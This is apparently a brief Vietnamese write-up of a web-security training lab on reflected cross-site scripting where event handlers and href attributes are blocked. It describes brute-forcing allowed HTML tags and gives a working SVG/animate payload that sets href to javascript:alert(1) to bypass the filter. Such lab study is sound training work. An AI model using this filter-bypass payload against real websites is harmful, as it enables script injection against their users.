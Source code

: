 ## Reflected XSS with event handlers and href attributes blocked (REFER)

1. Brute-force tất cả các thẻ html để xác định những thẻ không bị block

![Img1](\asset/../img/brute_force_tag.png)

2. Nhận được một vài thẻ html hợp lệ như : a, animate, image, svg, title,text

3. Kết hợp các thẻ trong whitelist trên. Craft payload

```
<svg>
    <a>
        <animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text>
    </a>
</svg>
```

![Img2](\asset/../img/done.png)